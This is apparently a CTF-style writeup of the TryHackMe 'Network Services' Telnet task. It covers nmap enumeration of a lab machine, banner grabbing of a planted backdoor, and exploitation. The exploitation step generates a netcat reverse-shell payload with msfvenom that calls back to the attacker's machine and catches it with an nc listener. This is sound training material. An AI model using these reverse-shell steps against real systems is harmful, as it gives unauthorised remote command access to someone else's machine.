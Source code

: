 ![](https://miro.medium.com/max/1400/1*bGG7eew9hvMfGMBnv77LJg.png)

This is a writeup for [Network Services](https://tryhackme.com/room/networkservices) room on THM

**Enumerating Telnet**
======================

Spin up your target machine and let’s do a quick nmap scan to see what ports are open

```
#nmap -Pn -p- 10.10.37.92  
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org) ) at 2022-02-23 09:10 EST  
Nmap scan report for 10.10.37.92  
Host is up (0.42s latency).  
Not shown: 65534 closed tcp ports (reset)  
PORT     STATE SERVICE  
8012/tcp open  unknown
```

1.  How many **ports** are open on the target machine?

```
1
```

2\. What **port** is this?

```
8012
```

3\. This port is unassigned, but still lists the **protocol** it’s using, what protocol is this?

```
TCP
```

Rerunning the nmap scan without -p-

```
sudo nmap -Pn 10.10.37.92      
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org) ) at 2022-02-23 09:10 EST  
Nmap scan report for 10.10.37.92  
Host is up (0.42s latency).  
All 1000 scanned ports on 10.10.37.92 are in ignored states.  
Not shown: 1000 closed tcp ports (reset)Nmap done: 1 IP address (1 host up) scanned in 6.59 seconds
```

4\. Now re-run the **nmap** scan, without the **\-p-** tag, how many ports show up as open?

```
0
```

**Telnet Banner Grabbing**

If we try to connect to the IP and port the service will print the banner

```
sudo telnet 10.10.37.92 8012                  
\[sudo\] password for kali:   
Trying 10.10.37.92...  
Connected to 10.10.37.92.  
Escape character is '^\]'.  
SKIDY'S BACKDOOR. Type .HELP to view commands
```

5\. Based on the title returned to us, what do we think this port could be **used for**?

```
a backdoor
```

6\. Who could it belong to? Gathering possible **usernames** is an important step in enumeration.

```
skidy
```

Exploiting Telnet
=================

Read the room notes from task 7 👀

2\. Great! It’s an open telnet connection! What welcome message do we receive?

```
SKIDY'S BACKDOOR.
```

3.Let’s try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

```
N
```![](https://miro.medium.com/max/830/1*6uPqzgedPfaAVpuhxciLfg.png)

Start a tcpdump listener on your local machine.

**If using your own machine with the OpenVPN connection, use:**

*   `sudo tcpdump ip proto \\icmp -i tun0`

**If using the AttackBox, use:**

*   `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

![](https://miro.medium.com/max/1400/1*WyAPD2F8xt2bQQfnY1kRdQ.png)TCP DUMP

4\. Now, use the command **“ping \[local THM ip\] -c 1”** through the telnet session to see if we’re able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
Y
```

We’re going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here’s our syntax:

**“msfvenom -p cmd/unix/reverse\_netcat lhost=\[local tun0 ip\] lport=4444 R”**

\-p = payload

lhost = our local host IP address (this is **your** machine’s IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format

What word does the generated payload start with?

![](https://miro.medium.com/max/1400/1*3OlqaT6UkXU3uI0hCMxiAQ.png)

5\. What word does the generated payload start with?

```
mkfifo
```

6.  
Perfect. We’re nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

**“nc -lvp \[listening port\]”**

What would the command look like for the listening port we selected in our payload?

```
nc -lvp 4444
```

Now copy paste the payload generated by the msfvenom in the telnet session

.RUN <payload>

![](https://miro.medium.com/max/1400/1*c7QS94Lq6HhaKy-JYhQS4w.png)

And it will give you a reverse shell

![](https://miro.medium.com/max/1086/1*dwvcgk-cRHjWIMCcfRrAKA.png)

Cat flag.txt to answer the last question

Thank you for reading.

🐾Writeup on Network Services FTP here [https://richardphilipsroy.medium.com/network-services-ftp-tryhackme-6c22406d1444](https://medium.com/network-services-ftp-tryhackme-6c22406d1444)
